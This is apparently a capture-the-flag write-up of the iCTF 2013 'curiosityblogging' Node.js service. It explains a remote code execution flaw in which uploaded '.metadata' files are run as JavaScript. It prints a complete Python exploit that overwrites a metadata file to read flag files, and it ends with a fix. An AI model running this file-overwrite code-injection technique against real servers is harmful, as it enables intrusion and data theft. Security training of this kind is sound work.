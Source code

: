 ```yaml
---
title: iCTF 2013 curiosityblogging writeup
author: zTrix
layout: post
permalink: /ictf-2013-curiosity-writeup/
categories:
  - Uncategorized
---
```

This is a web blogging system written using nodejs.

After some play and test, We find out that, it&#8217;s a blog posting system, people can read posts and upload posts.

Then We carefully read through its core logic code. The code reveals that there is a &#8220;store&#8221; interface for iCTF servers to push flags to the system. And the there is a dir called &#8220;flags&#8221;, so our goal is to hack the web and capture the flags from the &#8220;flags&#8221; directory.

Reviewing the code, we know that, when users create a post, the blogging system will first store its content in a plain text file, then store a metadata file using &#8220;.metadata&#8221; as extended filename. And the metadata file only contains the length of the post surrounded by brackets, such as &#8220;[36]&#8220;.

Soon after that, we noted that, in &#8220;metadata.js&#8221;, it exports a function called checkfile, which do metafile checking by execute the metadata file as javascript in a new context. Haha, it&#8217;s time for us to show our [RCE][1] skills!

The solution is straightforward now. First we upload a random post to the server, say &#8220;abc&#8221;. At this time, the server will write abc and abc.metadata in the posts dir. Then we can upload a file using abc.metadata as the name, so the real metadata of the abc will be overwritten. The content of the newly uploaded abc.metadata is some javascript code, which will read file content from flags dir and store them in posts dir, say, stored as flag and flag.metadata.

After all of above prepared, we just fire a hit to get post for abc, it will cause the abc.metadata executed, so our javascript code will store the flag in posts dir, then we can visit that post to get the flag.

Here is the complete code for this exploit:

    class Exploit():
    
      def exploit_curiosity_blogging(self, ip, port, flag_id):
        import httplib, time
        conn = httplib.HTTPConnection(ip, port)
        chunk = 'xxx' * 10
        headers = {}
        conn.request("POST", "/upload?name=___", chunk, headers)
        conn.getresponse().read()
    
        js = "    var fs = require('fs'); var content = fs.readFileSync('flags/" 
            + flag_id 
            + "'); fs.writeFileSync('posts/zzz', content); fs.writeFileSync('posts/zzz.metadata', '[' + content.length + ']'); "
        conn = httplib.HTTPConnection(ip, port)
        conn.request("POST", "/upload?name=___.metadata", js, headers)
        conn.getresponse().read()
    
        conn = httplib.HTTPConnection(ip, port)
        conn.request("GET", "/read?id=___")
        response = conn.getresponse()
        s = response.read()
    
        conn = httplib.HTTPConnection(ip, port)
        conn.request("GET", "/read?id=zzz")
        response = conn.getresponse()
        s = response.read()
        index = s.find('<p>')
        index2 = s.find('</p>')
        s = s[index + 3: index2].strip()
        ary = s.split('\n')
        if len(ary) &gt; 1:
          return ary[1]
        else:
          return ''
    
      def execute(self, ip, port, flag_id):
        self.flag = self.exploit_curiosity_blogging(ip, port, flag_id);
    
      def result(self):
        return {'FLAG' : self.flag }
    

Knowing the exploit, it&#8217;s easy now to fix. The best way is to modify the checkfile function in metadata.js to remove the [RCE][1] problem. Actually we fix this problem by disable uploading of posts end with &#8220;.metadata&#8221;, in this way we only need to modify one line, but may be less secure.

Many thanks to Chao Liu who showed expert level hacking skills working with me, he inspired me with ideas, and helped me write the exploit code.

 [1]: http://en.wikipedia.org/wiki/Arbitrary_code_execution